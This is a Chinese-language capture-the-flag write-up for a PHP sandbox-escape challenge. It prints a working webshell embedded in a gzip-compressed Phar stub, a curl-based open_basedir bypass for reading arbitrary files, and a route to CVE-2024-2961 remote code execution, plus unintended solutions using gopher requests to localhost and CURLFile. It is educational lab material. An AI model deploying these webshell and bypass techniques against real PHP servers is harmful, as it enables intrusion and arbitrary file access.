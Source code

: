 # php_jail_is_my_cry

**出题**：Kengwang

**难度**：中等

## 题目描述

PHP Jail is my CRY

> 请注意附件中的代码存在一行需要你补充的代码, 已经注释表明, 否则会存在问题
>
> 本题不出网, 最终需要执行 /readflag

## Hints

- 并没有开启 allow_url_include [2025-08-16 01:00:08]

## 部署注意事项

本题不出网

## Writeup

> Break out the jail and hear my CURL cry

本题其实给了 Docker 环境, 建议在本地打一遍, 将 Error 类从黑名单中移除, 这样能在日志看到报错

我们先说一下预期解, 再把大家可能遇到的问题给解决一下。

预期的思路：

1. 利用 phar include gz 压缩解析漏洞上马 (仅能通过 curl 读文件, `file_put_contents` 写文件)
2. 利用 curl 绕过 open_basedir 读取 `/proc/self/maps`
3. 利用 include 函数拆解 payload 打 CN-EXT (CVE-2024-2961)

大致分为这三步，但是中间还是有很多细节上的东西。因为本次使用了 PHP 8.3.0 高版本导致很多之前的特性都用不了，之后我们也会详细谈谈为什么选取这个版本。

### 第一步

我们参考文章 [当include邂逅phar——DeadsecCTF2025 baby-web.pdf](https://wx.zsxq.com/group/2212251881/topic/1524844181242522) [可选外链: https://xz.aliyun.com/news/18584]

我们可以通过下面代码生成一个可用的恶意 Phar, 将马写到 Stub 中

```php
<?php
$phar = new Phar('payload.phar');
$phar->startBuffering();
$phar->setStub(
'
<?php echo 111;
if ($_GET[0] == 0){
file_put_contents($_POST[0], $_POST[1]);
}
if ($_GET[0] == 1){
$orig = $_POST[0];
$ch = curl_init($orig);
curl_setopt($ch, CURLOPT_PROTOCOLS_STR, "all");
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$data = curl_exec($ch);
echo $data;
curl_close($ch);
}
__HALT_COMPILER(); ?>
'
);
$phar->addFromString('kengwang', '111');
$phar->stopBuffering();
?>
```

之后再通过 gzip 压缩

```shell
gzip -c payload.phar > shell.phar
```

我们上传后即可使用这个马

### 第二步

这个绕过 `open_basedir` 很容易就能在网上搜索到: [open_basedir bypass using curl extension](https://github.com/php/php-src/issues/16802)

加了个这个的原因是在 PHP 8.3 这种高版本中还存在过这样的绕过漏洞，并且似乎国内还没人提到？

> 这个也只是做个分享吧，也都没藏了，马写上去之后都是可以读到我的 `index.php` 写的

我们可以利用

```php
curl_setopt($ch, CURLOPT_PROTOCOLS_STR, "all");
```

再加上 `file://` 协议即可绕过 open_basedir 的限制，可以读取任意的文件。

利用：

```php
$orig = $_POST[0];
$ch = curl_init($orig);
curl_setopt($ch, CURLOPT_PROTOCOLS_STR, "all");
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$data = curl_exec($ch);
echo $data;
curl_close($ch);
```

我们可以读取任意的文件

### 第三步

其实很多师傅到这里应该都想到了 cn-ext, 毕竟题目明示了要 RCE，但现在唯独缺少的就是合适的触发点和触发方法。

我们很明显就注意到了 `include`

但是现在有个亟待解决的问题就是: 我们并未开启 `allow_url_include`, 也就是说我们包含的内容必须最终指向一个文件, 而 cn-ext 脚本所生成的最终是落到了一个 data 上, include 会被拒绝导致无法触发。

但是我们现在是有 `file_put_contents` 在限制的目录下写内容, 我们可以将这需要通过 filter chain 的内容写到一个文件中, 然后再讲原始 filter chain 的来源指向这个文件, 同样也能触发.

我们可以直接使用 kezibei 的生成脚本来在本地生成这样一个文件, 可以不用花时间改原来脚本中繁琐的 `check_vuln` 还有交互式获取文件内容。我们只需要让其执行 `/readflag > /tmp/flag` 即可

> 脚本生成 Payload 不再赘述

题解结束

下面是对一个情况的讨论:

* 为什么我尝试使用 gopher 攻击 fpm 并不奏效

可以参考 [P神的解释](https://wx.zsxq.com/group/2212251881/topic/2852124428812211)

或者你也可以参考这个 [Issue](https://github.com/curl/curl/issues/14219)

简而言之, gopher 支持 NULL byte 并不是一个预期的行为, 在 RFC 中明确规定了 gopher 的 url 不应当支持 NULL byte, 但是在某一个版本的 cURL 却开始错误的允许了这个行为. 当然之后也被重新限制 (在 [7.45.0,7.71.0] 期间可以发送, 在 [此 Commit](https://github.com/curl/curl/commit/31e53584db5879894809fbde5445aac7553ac3e2) 中修复, 在 [此 Commit](https://github.com/curl/curl/commit/5bf36ea30d38b9e00029180ddbab73cab94a2195) 被引入 by @orangetw)

而我们要攻击 php-fpm 必须要使用到 NULL byte, 故这样的 gopher url 在新版本中并不能成功发送。

下面是对两个非预期解题方法的披露

* 第一步的落马 (by IHK-1)

观察到我们存在从 URL 读取文件内容后并没有进行文件内容过滤, 我们可以让这个 URL 的内容包含我们的木马.

观察到当前页面在上传成功文件后会将文件名显示出来, 我们考虑构造一个上传包, 将文件名改为木马, 并且下载这个上传成功的页面.

这个时候我们的 gopher 协议可以登场了, 我们可以用 gopher 协议对 `127.0.0.1:80` 发起一个上传文件包, 将文件名写为木马的名字, 此时获取到的内容中就包含了木马了. 在结尾处我们加上一个 `%0D%0A/shell`, 让 basename 后的文件名正常一点. 我们就可以用这个木马文件来进行操作了

* 最后一步的触发

通过对 `get_declared_classes` 解除禁用, 与黑名单对照, 发现少 ban 了 `CURLFile`, 通过对 PHP 源码的审计, 发现 `CURLFile` 是由 PHP 解析, 并且能够走到 filter 解析逻辑中的, 故我们也可以使用这个 CURLFile 来触发 CN-EXT

```php
<?php
$cu = curl_init('http://localhost/');
curl_setopt($cu, CURLOPT_RETURNTRANSFER, true);
curl_setopt($cu, CURLOPT_POST, true);
$f = new CURLFile($_POST[0]);
curl_setopt($cu, CURLOPT_POSTFIELDS, [
    'f' => $f,
]);
$data = curl_exec($cu);
echo $data;
```

所以, 其实最符合题目, 最 cURL 的一个解题方法是:

* 利用 curl 下载 gopher 下马
* 利用 curl 绕过 open_basedir
* 利用 CURLFile 触发 cn-ext